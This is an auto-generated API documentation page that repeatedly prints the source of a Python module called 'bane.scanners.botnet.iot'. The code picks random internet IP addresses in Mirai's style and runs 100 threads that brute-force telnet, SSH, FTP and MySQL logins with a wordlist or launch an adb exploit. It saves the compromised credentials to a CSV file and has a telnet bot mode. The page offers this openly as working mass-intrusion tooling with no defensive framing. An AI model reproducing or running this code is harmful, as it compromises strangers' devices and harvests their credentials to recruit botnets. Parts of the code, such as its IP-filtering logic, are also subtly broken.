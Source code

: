 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.scanners.botnet.iot</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">import os, sys, socket, random, time, threading, xtelnet
from bane.common.payloads import *
from bane.scanners.vulnerabilities.vulns import adb_exploit, exposed_telnet
from ftplib import FTP

from bane.bruteforce.hydra import *
from bane.utils.handle_files import write_file


def getip():
    &#34;&#34;&#34;
    this function was inspired by the scanning file in mirai&#39;s source code to returns a safe IP to bruteforce.&#34;&#34;&#34;
    d = [3, 6, 7, 10, 11, 15, 16, 21, 22, 23, 26, 28, 29, 30, 33, 55, 56, 127, 214, 215]
    f = [100, 169, 172, 198]
    while True:
        o1 = random.randint(1, 253)
        o2 = random.randint(0, 254)
        if o1 not in d:
            if o1 in f:
                if (o1 == 192) and (o2 != 168):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 172) and ((o2 &lt;= 16) and (o2 &gt;= 32)):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 100) and (o2 != 64):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 169) and (o2 != 254):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 198) and (o2 != 18):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
            else:
                return &#34;{}.{}.{}.{}&#34;.format(
                    o1, o2, random.randint(0, 255), random.randint(0, 255)
                )


&#34;&#34;&#34;
  the following functions are used to scan safe IPs all over the internet with a word_list, it can scan bruteforce their: ftp, ssh, telnet, smtp and mysql logins then save them on text files in the same directory.
  it&#39;s highly recommended to be used with a VPS or your slow internet speed will be an obstacle to your scan.
&#34;&#34;&#34;


class mass_scan:
    def __init__(
        self,
        file_name=&#34;results.csv&#34;,
        protocol=&#34;telnet&#34;,
        telnet_bots=True,
        threads_daemon=True,
        logs=True,
        threads=100,
        word_list=[],
        ip_range=None,
        timeout=7,
        p=23,
    ):
        self.word_list = word_list
        self.logs = logs
        self.protocol = protocol.lower()
        self.stop = False
        self.ip_range = ip_range
        self.timeout = timeout
        self.port = p
        self.result = []
        self.telnet_bots = telnet_bots
        self.file_name = file_name
        if os.path.exists(self.file_name) == False:
            write_file(&#34;protocol,ip,port,username,password&#34;, self.file_name)
        for x in range(threads):
            t = threading.Thread(target=self.scan)
            t.daemon = threads_daemon
            t.start()

    def scan(self):
        try:
            time.sleep(1)
            while True:
                try:
                    if self.stop == True:
                        break
                    if self.ip_range == None:
                        ip = getip()
                    else:
                        ip = self.ip_range.format(
                            random.randint(0, 255),
                            random.randint(0, 255),
                            random.randint(0, 255),
                            random.randint(0, 255),
                        )
                    i = False
                    try:
                        so = socket.socket()
                        so.settimeout(self.timeout)
                        so.connect((ip, self.port))
                        i = True
                        so.close()
                    except:
                        pass
                    if self.stop == True:
                        break
                    if i == True:
                        if self.protocol == &#34;adb&#34;:
                            q = adb_exploit(ip, timeout=self.timeout, p=self.port)
                            if q == True:
                                res = &#34;adb:{}:{}::&#34;.format(ip, self.port)
                                write_file(res, self.file_name)
                                self.result.append(res)
                                if self.logs == True:
                                    print(res)
                        else:
                            if self.protocol == &#34;ssh&#34;:
                                func = ssh
                            elif self.protocol == &#34;telnet&#34;:
                                func = telnet
                            elif self.protocol == &#34;ftp&#34;:
                                func = ftp
                            elif self.protocol == &#34;mysql&#34;:
                                func = mysql
                            for x in self.word_list:
                                if self.stop == True:
                                    break
                                try:
                                    username = x.split(&#34;:&#34;)[0]
                                    password = x.split(&#34;:&#34;)[1]
                                    if (
                                        self.protocol == &#34;telnet&#34;
                                        and self.telnet_bots == True
                                    ):
                                        q = func(
                                            ip,
                                            username,
                                            password,
                                            timeout=self.timeout,
                                            p=self.port,
                                            bot_mode=True,
                                        )
                                    else:
                                        q = func(
                                            ip,
                                            username,
                                            password,
                                            timeout=self.timeout,
                                            p=self.port,
                                        )
                                    if q == True:
                                        res = &#34;{},{},{},{},{}&#34;.format(
                                            self.protocol,
                                            ip,
                                            self.port,
                                            username,
                                            password,
                                        )
                                        write_file(res, self.file_name)
                                        self.result.append(res)
                                        if self.logs == True:
                                            print(res)
                                        break
                                except:
                                    pass
                except:
                    pass
            self.kill()
        except:
            pass

    def done(self):
        if &#34;stop&#34; in dir(self):
            return False
        return True

    def reset(self):
        l = []
        for x in self.__dict__:
            self.__dict__[x] = None
            l.append(x)
        for x in l:
            delattr(self, x)

    def kill(self):
        self.stop = True
        a = self.__dict__[&#34;found&#34;]
        self.reset()  # this will kill any running threads instantly by setting all the attacking information to &#34;None&#34; and cause error which is handled with the &#34;try...except...&#34; around the main while loop
        return a</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-functions">Functions</h2>
<dl>
<dt id="bane.scanners.botnet.iot.getip"><code class="name flex">
<span>def <span class="ident">getip</span></span>(<span>)</span>
</code></dt>
<dd>
<div class="desc"><p>this function was inspired by the scanning file in mirai's source code to returns a safe IP to bruteforce.</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def getip():
    &#34;&#34;&#34;
    this function was inspired by the scanning file in mirai&#39;s source code to returns a safe IP to bruteforce.&#34;&#34;&#34;
    d = [3, 6, 7, 10, 11, 15, 16, 21, 22, 23, 26, 28, 29, 30, 33, 55, 56, 127, 214, 215]
    f = [100, 169, 172, 198]
    while True:
        o1 = random.randint(1, 253)
        o2 = random.randint(0, 254)
        if o1 not in d:
            if o1 in f:
                if (o1 == 192) and (o2 != 168):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 172) and ((o2 &lt;= 16) and (o2 &gt;= 32)):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 100) and (o2 != 64):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 169) and (o2 != 254):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
                if (o1 == 198) and (o2 != 18):
                    return &#34;{}.{}.{}.{}&#34;.format(
                        o1, o2, random.randint(0, 255), random.randint(0, 255)
                    )
            else:
                return &#34;{}.{}.{}.{}&#34;.format(
                    o1, o2, random.randint(0, 255), random.randint(0, 255)
                )</code></pre>
</details>
</dd>
</dl>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.scanners.botnet.iot.mass_scan"><code class="flex name class">
<span>class <span class="ident">mass_scan</span></span>
<span>(</span><span>file_name='results.csv', protocol='telnet', telnet_bots=True, threads_daemon=True, logs=True, threads=100, word_list=[], ip_range=None, timeout=7, p=23)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class mass_scan:
    def __init__(
        self,
        file_name=&#34;results.csv&#34;,
        protocol=&#34;telnet&#34;,
        telnet_bots=True,
        threads_daemon=True,
        logs=True,
        threads=100,
        word_list=[],
        ip_range=None,
        timeout=7,
        p=23,
    ):
        self.word_list = word_list
        self.logs = logs
        self.protocol = protocol.lower()
        self.stop = False
        self.ip_range = ip_range
        self.timeout = timeout
        self.port = p
        self.result = []
        self.telnet_bots = telnet_bots
        self.file_name = file_name
        if os.path.exists(self.file_name) == False:
            write_file(&#34;protocol,ip,port,username,password&#34;, self.file_name)
        for x in range(threads):
            t = threading.Thread(target=self.scan)
            t.daemon = threads_daemon
            t.start()

    def scan(self):
        try:
            time.sleep(1)
            while True:
                try:
                    if self.stop == True:
                        break
                    if self.ip_range == None:
                        ip = getip()
                    else:
                        ip = self.ip_range.format(
                            random.randint(0, 255),
                            random.randint(0, 255),
                            random.randint(0, 255),
                            random.randint(0, 255),
                        )
                    i = False
                    try:
                        so = socket.socket()
                        so.settimeout(self.timeout)
                        so.connect((ip, self.port))
                        i = True
                        so.close()
                    except:
                        pass
                    if self.stop == True:
                        break
                    if i == True:
                        if self.protocol == &#34;adb&#34;:
                            q = adb_exploit(ip, timeout=self.timeout, p=self.port)
                            if q == True:
                                res = &#34;adb:{}:{}::&#34;.format(ip, self.port)
                                write_file(res, self.file_name)
                                self.result.append(res)
                                if self.logs == True:
                                    print(res)
                        else:
                            if self.protocol == &#34;ssh&#34;:
                                func = ssh
                            elif self.protocol == &#34;telnet&#34;:
                                func = telnet
                            elif self.protocol == &#34;ftp&#34;:
                                func = ftp
                            elif self.protocol == &#34;mysql&#34;:
                                func = mysql
                            for x in self.word_list:
                                if self.stop == True:
                                    break
                                try:
                                    username = x.split(&#34;:&#34;)[0]
                                    password = x.split(&#34;:&#34;)[1]
                                    if (
                                        self.protocol == &#34;telnet&#34;
                                        and self.telnet_bots == True
                                    ):
                                        q = func(
                                            ip,
                                            username,
                                            password,
                                            timeout=self.timeout,
                                            p=self.port,
                                            bot_mode=True,
                                        )
                                    else:
                                        q = func(
                                            ip,
                                            username,
                                            password,
                                            timeout=self.timeout,
                                            p=self.port,
                                        )
                                    if q == True:
                                        res = &#34;{},{},{},{},{}&#34;.format(
                                            self.protocol,
                                            ip,
                                            self.port,
                                            username,
                                            password,
                                        )
                                        write_file(res, self.file_name)
                                        self.result.append(res)
                                        if self.logs == True:
                                            print(res)
                                        break
                                except:
                                    pass
                except:
                    pass
            self.kill()
        except:
            pass

    def done(self):
        if &#34;stop&#34; in dir(self):
            return False
        return True

    def reset(self):
        l = []
        for x in self.__dict__:
            self.__dict__[x] = None
            l.append(x)
        for x in l:
            delattr(self, x)

    def kill(self):
        self.stop = True
        a = self.__dict__[&#34;found&#34;]
        self.reset()  # this will kill any running threads instantly by setting all the attacking information to &#34;None&#34; and cause error which is handled with the &#34;try...except...&#34; around the main while loop
        return a</code></pre>
</details>
<h3>Methods</h3>
<dl>
<dt id="bane.scanners.botnet.iot.mass_scan.done"><code class="name flex">
<span>def <span class="ident">done</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def done(self):
    if &#34;stop&#34; in dir(self):
        return False
    return True</code></pre>
</details>
</dd>
<dt id="bane.scanners.botnet.iot.mass_scan.kill"><code class="name flex">
<span>def <span class="ident">kill</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def kill(self):
    self.stop = True
    a = self.__dict__[&#34;found&#34;]
    self.reset()  # this will kill any running threads instantly by setting all the attacking information to &#34;None&#34; and cause error which is handled with the &#34;try...except...&#34; around the main while loop
    return a</code></pre>
</details>
</dd>
<dt id="bane.scanners.botnet.iot.mass_scan.reset"><code class="name flex">
<span>def <span class="ident">reset</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def reset(self):
    l = []
    for x in self.__dict__:
        self.__dict__[x] = None
        l.append(x)
    for x in l:
        delattr(self, x)</code></pre>
</details>
</dd>
<dt id="bane.scanners.botnet.iot.mass_scan.scan"><code class="name flex">
<span>def <span class="ident">scan</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def scan(self):
    try:
        time.sleep(1)
        while True:
            try:
                if self.stop == True:
                    break
                if self.ip_range == None:
                    ip = getip()
                else:
                    ip = self.ip_range.format(
                        random.randint(0, 255),
                        random.randint(0, 255),
                        random.randint(0, 255),
                        random.randint(0, 255),
                    )
                i = False
                try:
                    so = socket.socket()
                    so.settimeout(self.timeout)
                    so.connect((ip, self.port))
                    i = True
                    so.close()
                except:
                    pass
                if self.stop == True:
                    break
                if i == True:
                    if self.protocol == &#34;adb&#34;:
                        q = adb_exploit(ip, timeout=self.timeout, p=self.port)
                        if q == True:
                            res = &#34;adb:{}:{}::&#34;.format(ip, self.port)
                            write_file(res, self.file_name)
                            self.result.append(res)
                            if self.logs == True:
                                print(res)
                    else:
                        if self.protocol == &#34;ssh&#34;:
                            func = ssh
                        elif self.protocol == &#34;telnet&#34;:
                            func = telnet
                        elif self.protocol == &#34;ftp&#34;:
                            func = ftp
                        elif self.protocol == &#34;mysql&#34;:
                            func = mysql
                        for x in self.word_list:
                            if self.stop == True:
                                break
                            try:
                                username = x.split(&#34;:&#34;)[0]
                                password = x.split(&#34;:&#34;)[1]
                                if (
                                    self.protocol == &#34;telnet&#34;
                                    and self.telnet_bots == True
                                ):
                                    q = func(
                                        ip,
                                        username,
                                        password,
                                        timeout=self.timeout,
                                        p=self.port,
                                        bot_mode=True,
                                    )
                                else:
                                    q = func(
                                        ip,
                                        username,
                                        password,
                                        timeout=self.timeout,
                                        p=self.port,
                                    )
                                if q == True:
                                    res = &#34;{},{},{},{},{}&#34;.format(
                                        self.protocol,
                                        ip,
                                        self.port,
                                        username,
                                        password,
                                    )
                                    write_file(res, self.file_name)
                                    self.result.append(res)
                                    if self.logs == True:
                                        print(res)
                                    break
                            except:
                                pass
            except:
                pass
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.scanners.botnet" href="index.md">bane.scanners.botnet</a></code></li>
</ul>
</li>
<li><h3><a href="#header-functions">Functions</a></h3>
<ul class="">
<li><code><a title="bane.scanners.botnet.iot.getip" href="#bane.scanners.botnet.iot.getip">getip</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.scanners.botnet.iot.mass_scan" href="#bane.scanners.botnet.iot.mass_scan">mass_scan</a></code></h4>
<ul class="">
<li><code><a title="bane.scanners.botnet.iot.mass_scan.done" href="#bane.scanners.botnet.iot.mass_scan.done">done</a></code></li>
<li><code><a title="bane.scanners.botnet.iot.mass_scan.kill" href="#bane.scanners.botnet.iot.mass_scan.kill">kill</a></code></li>
<li><code><a title="bane.scanners.botnet.iot.mass_scan.reset" href="#bane.scanners.botnet.iot.mass_scan.reset">reset</a></code></li>
<li><code><a title="bane.scanners.botnet.iot.mass_scan.scan" href="#bane.scanners.botnet.iot.mass_scan.scan">scan</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>